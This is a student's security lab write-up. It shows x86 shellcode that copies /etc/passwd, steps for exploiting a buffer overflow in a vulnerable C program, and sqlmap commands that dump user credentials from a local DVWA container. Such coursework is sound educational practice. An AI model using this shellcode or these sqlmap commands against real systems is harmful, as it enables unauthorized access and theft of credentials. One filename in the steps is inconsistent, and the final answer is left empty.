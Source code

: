 # Lab #1,22110040, Le Thi Thu Huong, INSE330380E_01FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile

```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**: Must conform to below structure:

Prepare the environment

```
sudo sysctl -w kernel.randomize_va_space=0
```

Compile C program

1. Save the C code in a file named "lab1vuln.c"
2. Compile the C code with GCC to create an executable

```
gcc lab1vuln.c -o lab1vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

Compile asm program

1. Save the assembly shellcode in a file named "lab1vuln.c"
2. Assemble the shellcode using NASM to create an object file

```
nasm -g -f elf lab1sh.asm; ld -m elf_i386 -o lab1sh lab1sh.o
```

Get the shellcode of asm program

```
for i in $(objdump -d lab1sh |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

![alt text](image-1.png)
shellcode = (\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80)

The shellcode provided is designed to perform a specific sequence of system calls in order to copy the contents of the /etc/passwd file to /tmp/pwfile.

Stackframes of the program

Use objdump to find the address of the redundant_code function

```
objdump -d lab1vuln.out|grep redundant_code
```

![alt text](image-2.png)

The command objdump -d lab1vuln.out | grep redundant_code is used to find the address where the redundant_code function is located in the executable. The output simply shows that the function redundant_code starts at memory address 0x0804846b

# Task 2: Attack on database of DVWA

- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Prepare the environment

1. To set up DVWA in a Docker
   container, follow these steps

Pull the DVWA Docker image

```
docker pull vulnerables/web-dvwa
```

Chạy DVWA trong container

```
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa
```

![alt text](image-4.png)

2. Access DVWA:

Open a web browser and navigate to http://localhost/setup.php.

Click on the Create / Reset Database button to set up the database.

3. Login to DVWA:

Go to http://localhost/login.php.
Use the default credentials:

Username: admin
Password: password
![alt text](image-5.png)
Answer the question

1. Install SQLMap:

Install SQLMap via the command line.

Clone the SQLMap repository

```
git clone https://github.com/sqlmapproject/sqlmap.git
```

Navigate to the SQLMap directory

```
cd sqlmap
```

![alt text](image-3.png) 2. Run SQLMap Against DVWA

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1" --dbs
```

3. SQLMap Output

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

1. Get Tables in the DVWA Database:

Use the following command to list all tables in the DVWA database:

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1" -D dvwa --tables
```

To retrieve information about users from the users table, use the following command

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1" -D dvwa -T users --dump
```

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
